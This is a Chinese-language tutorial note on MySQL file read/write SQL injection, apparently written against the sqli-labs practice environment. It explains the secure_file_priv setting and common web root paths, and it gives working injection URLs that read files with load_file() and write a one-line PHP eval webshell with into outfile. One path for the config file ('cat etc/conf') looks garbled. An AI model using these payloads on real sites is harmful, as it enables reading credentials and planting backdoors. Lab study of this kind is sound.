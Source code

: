 # 

# SQL注入—文件读写注入

## 读写注入的原理

利用文件的读写权限进行注入，它可以写入一句话木马，也可以读取系统文件的敏感信息。

​	

## 文件读写注入的条件

高版本的 MySQL 添加了一个新的特性：`secure_file_priv` 系统变量，该变量限制了 MySQL 导出文件的权限。

### `secure_file_priv` 变量的路径：

- Linux：`cat etc/conf`
- Windows：`www/mysql/my.ini`

​	

### 查看 MySQL 全局变量的配置：

(在 MySQL 数据库中输入)

```mysql
show global variables like '%secure%';
```

​	

### 文件读写注入的条件：

1、读写文件需要 `secure_file_priv` 权限

- `secure_file_priv=''`：代表对文件读写没有限制
- `secure_file_priv=NULL`：代表不能进行文件读写
- `secure_file_priv=d:/phpstudy/mysql/data`：代表只能对该路径下文件进行读写
> 在 MySQL 5.5 之前 `secure_file_priv` 默认为空
> 在 MySQL 5.5 之后 `secure_file_priv` 默认为 NULL

​	

2、知道网站绝对路径

Windows 常见的绝对路径：

- phpstudy: `phpstudy/www`  `phpstudy/PHPTutorial/www`
- Xampp: `xampp/htdocs`
- Wamp: `wamp/www`
- Appser: `appser/www`

Linux 常见的绝对路径：

- `/var/mysql/data`
- `/var/www/html`

​	

路径获取常见方式：

- 报错显示
- 遗留文件
- 漏洞报错
- 平台配置文件等

​	

## 读取文件

使用函数：`load_file()`

后面的路径可以是单引号，0x，char 转换的字符。

注意：路径中斜杠是 `/` 不是 `\`

一般可以在联合查询中做为一个字段使用，查看 config.php (即 MySQL 的密码)，apache 配置...

```mysql
#读取路径下的某个文件并返回结果
http://127.0.0.1/mysql/Less-1/?id=-1' union select 1,2,load_file('c:/users/wutongliran/desktop/2.txt') --+
```

​	

## 写入文件

使用函数：

- `into outfile`：能写入多行，按格式输出
- `into dumpfile`：只能写入一行且没有输出格式

`into outfile` 后面不能接 0x 开头或者 char 转换以后的路径，只能是单引号路径

```mysql
#将木马写入指定位置
http://127.0.0.1/mysql/Less-1/?id=-1' union select 1,'<?php eval($_REQUEST[wtlr]); ?>',3 into outfile 'D://1.php'--+
```



